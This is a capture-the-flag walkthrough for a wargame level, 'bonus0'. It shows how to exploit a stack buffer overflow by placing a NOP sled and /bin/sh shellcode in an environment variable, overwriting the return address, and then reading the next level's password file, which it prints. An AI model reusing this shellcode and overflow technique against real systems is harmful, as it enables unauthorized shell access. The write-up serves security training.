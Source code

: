 # Bonus 00 Walkthrough

## Binary analysis

The binary is vulnerable to a buffer overflow. We can exploit this by placing shellcode in an environment variable and overflowing the buffer to redirect execution to this shellcode.

### Key exploitation steps
- Place shellcode in an environment variable (e.g., SC)
- Overflow the buffer and overwrite the return address with the address of the shellcode in the environment

## Exploitation

1. Export the shellcode in an environment variable:
   ```bash
   export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
   ```
2. Find the approximate address of the environment variable (using gdb and `x/2000s (char **)environ`).
3. Overflow the buffer and overwrite the return address with the address of the shellcode:
   ```bash
   (python -c 'print(b"A"*20)'; python -c 'print(b"B"*9+b"\xbf\xff\xeb\xff"[::-1]+b"C"*42)'; cat -) | ./bonus0
   ```
   (Replace `\xbf\xff\xeb\xff` with the correct address for your environment)

## Commands used

```
export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
(python -c 'print(b"A"*20)'; python -c 'print(b"B"*9+b"\xbf\xff\xeb\xff"[::-1]+b"C"*42)'; cat -) | ./bonus0
cat /home/user/bonus1/.pass
```

## Result

After running the exploit, we get a shell as bonus1 and can read the password:

```
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

Copy the password for the next level. 